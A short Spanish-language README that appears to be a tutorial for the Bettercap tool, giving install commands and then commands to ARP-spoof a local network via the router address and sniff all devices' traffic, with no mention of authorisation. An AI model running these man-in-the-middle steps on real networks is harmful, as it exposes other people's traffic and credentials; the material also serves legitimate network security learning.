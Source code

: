 # Análisis con Bettercap
<br>

<p align="center">
<img src="./Img/logo.jpg">
</p>

<br>

Bettercap es una herramienta potente, flexible y portátil creada para realizar varios tipos de ataques MITM contra una red, manipular HTTP, HTTPS y tráfico TCP en tiempo real, buscar credenciales y mucho más.

<br>

## Instalación


sudo apt-get install build-essential ruby-dev libpcap-dev

apt-get update

apt-get install bettercap
```

<br>

## USO

Abriremos una nueva terminal y ejecutaremos lo siguientes comandos:

```
bettercap

net.probe on

ticker on
```

Como podmeos observar son las IP de nuestra red local.

<br>

![Informatica](Img/IP.jpg)

<br>

En la misma terminal ejecutaremos de nuevo bettercap, seleccionamos la IP que vamos analizár en este caso vamos a nalizar todas las IP para esto seleccionamos la IP del router.

```
set arp.spoof targets 192.168.1.1

arp.spoof on

set net.sniff.verbose false

net.sniff on
```

Y nos mostrara todo el tráfico de todos los dispositivos.

<br>

![Informatica](Img/trafico.png)

<br>


